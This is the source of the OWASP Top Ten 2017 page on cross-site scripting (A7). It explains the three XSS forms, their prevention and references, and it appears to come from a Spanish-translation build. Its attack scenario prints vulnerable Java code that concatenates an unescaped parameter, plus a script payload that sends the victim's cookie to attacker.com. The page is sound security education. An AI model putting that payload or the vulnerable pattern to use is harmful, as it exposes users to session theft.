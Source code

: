 ```yaml
---

document: OWASP Top Ten 2017 (es)
year: 2017
order: 13
en: A7:2017-Cross-Site Scripting (XSS)
title: A7:2017-Secuencias de Comandos en Sitios Cruzados (XSS)
lang: es
layout: full-width-document
author:
contributors: vtamara
tags: OWASP Top Ten 2017 (es), Top Ten, A7:2017, xss, es
exploitability: 3
prevalence: 3
detectability: 3
technical: 2
redirect_from:
  - 2017/es/A7-Cross-Site_Scripting_(XSS)

---
```


{% include risk_begin.html %}
{%- include risk_description.html pos="firstLeft" -%}
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
{%- include risk_description.html pos="mid" -%}
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br>
Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
{%- include risk_description.html pos="right" -%}
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
{%- include risk_end.html -%}

{%- include t10_subsection_begin.html -%}
{%- include t10_subsection.html token="isTheApplicationVulnerable" pos="firstLeft" -%}
There are three forms of XSS, usually targeting users' browsers:<br>
* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.<br>
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.<br>
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.<br>

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

{%- include t10_subsection.html token="howToPrevent" pos="right" -%}
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:<br>
* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.<br>
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.<br>
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).<br>
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).<br>

{%- include t10_subsection.html token="exampleAttackScenarios" pos="left" -%}
**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:<br>
    {% include code_red_begin.html -%} (String) page += "<input name='creditcard' type='TEXT' {%- include code_red_end.html %}
    {% include code_red_begin.html -%} value='" + request.getParameter("CC") + "'>"; {%- include code_red_end.html %}

The attacker modifies the ‘CC’ parameter in the browser to:<br>
    {% include code_red_begin.html -%} '>&lt;script>document.location= {%- include code_red_end.html %}
    {% include code_red_begin.html -%} 'http://www.attacker.com/cgi-bin/cookie.cgi? {%- include code_red_end.html %}
    {% include code_red_begin.html -%} foo='+document.cookie&lt;/script>'. {%- include code_red_end.html %}

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. <br>
**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

{%- include t10_subsection.html token="references" pos="right" -%}
**OWASP**<br>
* [OWASP Proactive Controls: Encode and Escape Data](/www-project-proactive-controls/v3/en/c4-encode-escape-data)<br>
* [OWASP Proactive Controls: Validate All Inputs](/www-project-proactive-controls/v3/en/c5-validate-inputs)<br>
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)<br>
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)<br>
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)<br>
* [OWASP Java Encoder Project](/www-project-java-encoder) ([old wiki](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project))<br>
<br>
**External**<br>
* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)<br>
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
{% include t10_subsection_end.html %}
